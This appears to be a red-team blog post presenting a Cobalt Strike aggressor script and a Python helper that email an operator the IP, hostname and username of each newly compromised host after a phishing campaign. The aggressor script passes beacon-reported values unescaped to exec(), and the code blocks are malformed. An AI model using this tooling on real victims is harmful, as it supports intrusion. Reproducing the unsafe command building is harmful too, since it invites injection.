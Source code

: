 ```yaml
---
layout: post
title: "Cobalt Strike Aggressor Script"
permalink: "cobaltscripts"
date: 14-07-2023
categories: Blog
---
```


Over the past few days I have been trying to get back into playing around with Cobalt Strike more to up my Red Teaming game. As part of that, and to get some practice, I thought I would try to write a simple aggressor script.

The sole purpose of the script would be to email me when a beacon checks in. I imagine after a phishing campaign is sent out, you don't want to be sitting by your screen constantly waiting for something to happen so this might make life easier.

The two pieces of code required are:

- An aggressor script loaded into Cobalt Strike to monitor when a beacon checks in. This I simply called 'email.cna'.
- A Python script named 'emailme.py' that is called by the aggressor script to send an email on checkin.


### Scripts

The aggressor script can be seen below, and is simply placed within the 'on beacon_initial' function which gets called on beacon check in. It then extracts some fields of interest from the beacon such as the IP, computer name and username and passes them to the Python email script.

**email.cna:**
{% highlight powershell %}
on beacon_initial {
    println("Initial Beacon Checkin: " . $1 . " PID: " . beacon_info($1,"pid"));

    local('$internalIP $computerName $userName');
    $internalIP = replace(beacon_info($1,"internal")," ","_");
    $computerName = replace(beacon_info($1,"computer")," ","_");
    $userName = replace(beacon_info($1,"user")," ","_");
    $cmd = '/home/kali/emailme.py --computername ' . $computerName . " --internalip " . $internalIP . " --username " . $userName;
    exec($cmd);
}



Next up we have to build the Python script which I have also shown below. It is quite self explanatory but I guess some mail providers might require app passwords and the like, such as Gmail which might make it trickier.
If this is the case try to use a more basic email account if you have one that maybe offers you more control.


**emailme.py:**
{% highlight powershell %}
#!/usr/bin/env python  

import smtplib
import argparse
from email.mime.text import MIMEText

parser = argparse.ArgumentParser(description='beacon info')
parser.add_argument('--computername')
parser.add_argument('--internalip')
parser.add_argument('--username')
args = parser.parse_args()
computername = args.computername
internalip = args.internalip
username = args.username  

subject = "New Beacon Checkin"
body = "Checkin from Beacon with hostname:" + computername + ", with IP: " + internalip + " and from user: " + username
sender = "yourname@youremail.org"
recipients = ["test@testreceipt.com"]
password = "YourPassword"
{% endhighlight %}


def send_email(subject, body, sender, recipients, password):
    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = sender
    msg['To'] = ', '.join(recipients)
    with smtplib.SMTP_SSL('smtp.yoursmtp.com', 465) as smtp_server:
       smtp_server.login(sender, password)
       smtp_server.sendmail(sender, recipients, msg.as_string())
    print("Message sent!")


send_email(subject, body, sender, recipients, password)
{% endhighlight %}

Finally the last thing to do is to load the Aggressor script into Cobalt Strike as shown below, by using the 'Script Manager' window.

<img alt="cs" src="/assets/img/CNA-LOADED.jpg"/>

The next time a beacon checks in you should receive an email that it has done so. This has been fun playing around with CS again and hopefully this saves you some time.

I think next up I might build a complete C2 infrastructure on Azure with redirectors back to the C2 hosted elsewhere to practice that aspect of Red Teaming. Stay tuned!
